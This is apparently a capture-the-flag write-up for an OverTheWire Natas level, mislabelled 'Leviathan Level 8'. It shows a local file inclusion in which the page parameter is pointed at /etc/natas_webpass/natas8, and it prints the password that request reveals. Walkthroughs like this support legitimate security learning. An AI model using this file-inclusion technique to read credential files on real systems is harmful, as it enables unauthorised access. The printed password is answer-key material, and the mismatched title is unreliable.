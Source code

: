 # Level 8

Leviathan OverTheWire Level 8: [level 8](https://overthewire.org/wargames/natas/)

## Level 8 info
Home About


## Answer
Home gets us this path: http://natas7.natas.labs.overthewire.org/index.php?page=home

If we view-source: http://natas7.natas.labs.overthewire.org/index.php?page=home

We are given a hint 
```html

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
 ```
 If we change the page to a different path what would happen 
 http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

It gives us the natas8 password: xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 


## Level 8 Website
[natas8](http://natas8.natas.labs.overthewire.org)